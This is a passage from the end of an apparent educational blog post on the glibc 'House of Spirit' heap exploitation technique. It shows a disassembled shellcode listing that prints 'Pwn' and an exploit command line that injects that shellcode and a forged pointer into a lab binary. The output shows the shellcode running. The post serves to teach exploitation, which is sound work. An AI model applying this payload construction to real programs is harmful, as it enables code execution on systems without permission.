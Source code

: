 ```
 8048085:       ce                      into   
 8048086:       ff                      (bad)  
 8048087:       ff b0 04 31 db 43       push   DWORD PTR [eax+0x43db3104]

08048088 :
 8048088:       b0 04                   mov    al,0x4
 804808a:       31 db                   xor    ebx,ebx
 804808c:       43                      inc    ebx
 804808d:       59                      pop    ecx
 804808e:       31 d2                   xor    edx,edx
 8048090:       b2 03                   mov    dl,0x3
 8048092:       cd 80                   int    0x80
 8048094:       b0 01                   mov    al,0x1
 8048096:       cd 80                   int    0x80

08048098 :
 8048098:       e8 eb ff ff ff          call   8048088 
 804809d:       50                      push   eax
 804809e:       77 6e                   ja     804810e <tricky_end+0x76>
```
Putting all together, we get the expected result:  
```
 $ ./hos `python -c 'import sys; sys.stdout.write("\x31\xc0\xeb\x14\xfc\xce\xff\xff\xb0\x04\x31\xdb\x43\x59\x31\xd2\xb2\x03\xcd\x80\xb0\x01\xcd\x80\xe8\xeb\xff\xff\xff\x50\x77\x6eB" * 4 + "\x28\xCF\xFF\xFF" + "\x30")'` 48
PTR1 = [ 0x804b008 ]
PTR1 = [ 0xffffcf28 ]

1�������1�CY1Ҳ̀�̀�����Pwn(���(�
Pwn$
```
And that’s actually it: the House of Spirit. This post concludes my trip into the paper that introduced glibc’s heap overflows to the world. I showed how some of the tricks described in it still work nowadays and this has been a lot of fun for me and I really hope you had some when reading all this stuff.  